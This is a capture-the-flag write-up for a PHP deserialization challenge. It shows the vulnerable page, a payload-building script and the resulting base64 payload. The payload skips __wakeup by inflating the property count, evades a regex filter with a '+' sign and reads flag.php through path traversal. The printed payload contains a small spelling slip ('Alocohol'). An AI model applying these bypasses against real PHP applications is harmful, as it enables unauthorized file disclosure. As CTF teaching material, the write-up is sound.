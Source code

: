 # Homework 9-Bi AlcoFailic [100 points] (5 solves)

Source code:
```php
<?php
class Alcohol
{
    private $file = 'index.php';
    public function __construct($file)
    {
        $this->file = $file;
    }
    function __destruct()
    {
        echo @highlight_file($this->file, true);
    }

    function __wakeup()
    {
        if ($this->file != 'index.php') {
            $this->file = 'index.php';
        }
    }

}

if (isset($_GET['route'])) {
    $route = base64_decode($_GET['route']);
    if (preg_match('/[oc]:\d+:/i', $route)) {
        die('@#$%^&!*@(!');

    } else {
        @unserialize($route);
    }


} else {
    highlight_file('index.php');
}

?>
```
In this challenge, you have three things that need to work with.\
First, `__wakeup()` function, change the `1` to `2` to bypass the serialized object. 
Second, you need to bypass `preg_match`, which `/[oc]:\d+:/i` will match all phrase start with [o,c,O,C], follow with `:` and number, end with `:`. For this, simply add a `+` before the number.\
Last, even we finish our payload, the flag is still not shown since the `flag.php` is not in the current directory.

```php
<?php
class Alcohol
{
    private $file = "../../../../../flag.php";
}
$alcohol = new Alcohol();
$serialized = serialize($alcohol);
$serialized = str_replace('O:7','O:+7',$serialized);
$serialized = str_replace(':1:',':2:',$serialized);
echo $serialized;
echo " ";
echo base64_encode($serialized);
?>
```
Correct payload that output:
```text
O:+7:"Alcohol":2:{s:13:"%00Alocohol%00file";s:23:"../../../../../flag.php";}
TzorNzoiQWxjb2hvbCI6Mjp7czoxMzoiAEFsY29ob2wAZmlsZSI7czoyMzoiLi4vLi4vLi4vLi4vLi4vZmxhZy5waHAiO30=
```

Finally, we get the flag `hnci{!@#*@!#!@_1u_1v_O0tp1pi_P0y.......?}`, get the correct flag by using caesar cipher decoder with offset=24.

flag: `flag{!@#*@!#!@_1s_1t_M0rn1ng_N0w.......?}`
